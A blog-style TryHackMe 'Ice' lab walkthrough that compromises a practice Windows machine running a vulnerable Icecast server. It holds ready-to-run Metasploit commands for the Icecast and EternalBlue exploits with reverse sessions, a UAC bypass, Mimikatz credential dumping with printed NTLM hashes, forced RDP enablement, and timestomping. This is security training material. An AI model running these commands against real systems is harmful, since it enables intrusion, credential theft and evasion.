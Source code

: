 ```yaml
---
title: 'TryHackMe - Ice'
description: "Lorem Ipsum"
author: 'Tim Sonner'
date: '2023-07-08'
hero: '/thm-ice/thm-ice-hero.png'
published: true
---
```


![](/thm-ice/thm-ice-hero.png)  

## Recon  

**Nmap service scan**  

```  
nmap -sV -vv $IP 
```  

![](/thm-ice/thm-ice-nmap-sv.png)  

> This room covers the service running on port 8000 (Icecast).  


**Nmap vulnerability scan**  

``` 
nmap -script=vuln -vv $IP   
```  
![](/thm-ice/thm-ice-nmap-script-vuln.png)  

> This box is also vulnerable to Eternal Blue (ms17-010) CVE-2017-0143.  

## Research the exploit. The room wants us to research a specific CVE from 2004. 

**cvedetails.com results for "Icecast"**  

![](/thm-ice/thm-ice-cvedetails-icecast.png)  

> Hmmm... No CVE results from 2004.

**exploit-db.com results for "Icecast"**  

![](/thm-ice/thm-ice-exploitdb-icecast.png)  

> The correct CVE is linked in the exploit-db results (2004-10-6 or 2004-10-12)

**ChatGPT results for Icecast vulnerabilities from 2004**  

![](/thm-ice/thm-ice-chatgpt-icecast-2004.png)  

> We now know the CVE in question is CVE-2004-1561.  

**cvedetails.com results for CVE-2004-1561**  

![](/thm-ice/thm-ice-cvedetails-cve-2014-1561.png)  

> The vulnerability allows us to "Execute Code" by leveraging a buffer "Overflow".  

**Digging a bit deeper... searchsploit results for "Icecast"**  
![](/thm-ice/thm-ice-searchsploit.png)  

**View the exploit**

```  
cat /usr/share/exploitdb/exploits/windows_x86/remote/16763.rb
```  

## Exploit

**Metasploit search results for "icecast"**  
![](/thm-ice/thm-ice-metasploit-search-icecast.png)  

**Metasploit command**  

```  
msfconsole -x "use exploit/windows/http/icecast_header;setg RHOSTS $IP;setg LHOST tun0;run"
```  

> Note tun0 may not be the only tun interface. Run 'ip addr' to view interfaces, command above may need tun1.  

**Get our user ID and view the icecast process**  
![](/thm-ice/thm-ice-meterpreter-ps.png)  
> We get the same PID if we run getpid. That process is us.

**View all processes**  
![](/thm-ice/thm-ice-meterpreter-ps-regular.png)  

## Elevate our privileges  

**View our privileges**  
```  
getprivs
```  
![](/thm-ice/thm-ice-meterpreter-getprivs-1.png)

**Get suggested exploits**  

```  
run post/multi/recon/local_exploit_suggester
```  

![](/thm-ice/thm-ice-meterpreter-local-suggestions.png)  

**Use a suggested exploit**  

```  
use exploit/windows/local/bypassuac_eventvwr
```  

![](/thm-ice/thm-ice-metasploit-bypassuac-eventvwr.png)  

**Once the exploit has ran, view our sessions, 2 is elevated**  

![](/thm-ice/thm-ice-metasploit-sessions.png)  

**Our user ID is the same as in the un-elevated session**  
![](/thm-ice/thm-ice-meterpreter-getuid.png)

**Our privileges in the elevated session are different**  

![](/thm-ice/thm-ice-meterpreter-getprivs-2.png)  

**View processes in the elevated session. Notice different results between sessions? Our privileged shell can view owners of all processes**  

![](/thm-ice/thm-ice-meterpreter-ps-elevated.png)  

**Migrate to another session**  

![](/thm-ice/thm-ice-meterpreter-migrate.png)

**Load Mimikatz aka Kiwi**  

![](/thm-ice/thm-ice-meterpreter-load-kiwi.png)  


**Get credentials**  
![](/thm-ice/thm-ice-mimikatz-creds-all.png)  

**Dump the hashes with "hashdump"**  

```  
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Dark:1000:aad3b435b51404eeaad3b435b51404ee:7c4fe5eada682714a036e39378362bab:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```  

**Spin up an RDP session utilizing the user Dark's credentials to authenticate**  

```  
run post/windows/manage/enable_rdp
```  
> This opens the RDP port and starts the service on the target if not already enabled.  

```  
rdesktop $IP
```  
> Remote desktop, just give it an IP. This command is ran on the localhost of course.  

![](/thm-ice/thm-ice-rdesktop.png)  

**View the target's desktop in real time in a browser window.**  

```  
screenshare
```  

![](/thm-ice/thm-mimikatz-screenshare.png)  

**Mess with timestamps.**  

```  
timestomp desktop.ini -m "07/08/2023 15:30:00"
```  

![](/thm-ice/thm-ice-timestomp.png)  

**Record audio from the taget device's microphone.**  

```  
record_mic
```  
> Don't think this works on this box...

**Create a Kerberos golden ticket to take you where you're going in life...**  

```  
golden_ticket_create
```  
> load kiwi is required for this command.  Also, this box isn't domain joined.  

**Let's p0wn the box using the eternal blue exploit**  

```  
msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;setg RHOSTS $IP;setg LHOST tun0;run"
```  

> Ridiculously EZ.  

![](/thm-ice/thm-ice-metasploit-eternal-blue.png)  

**Here's an exploit to try out and work on...**  

Icecast 2.0.1 (Win32) - Remote Code Execution (1) 

https://www.exploit-db.com/exploits/568  

**Here's a copy of ncat.exe in case we want to rewrite the exploit...**  

[https://timsonner.com/ncat.exe](/ncat.exe)  

# Donezo Funzo.











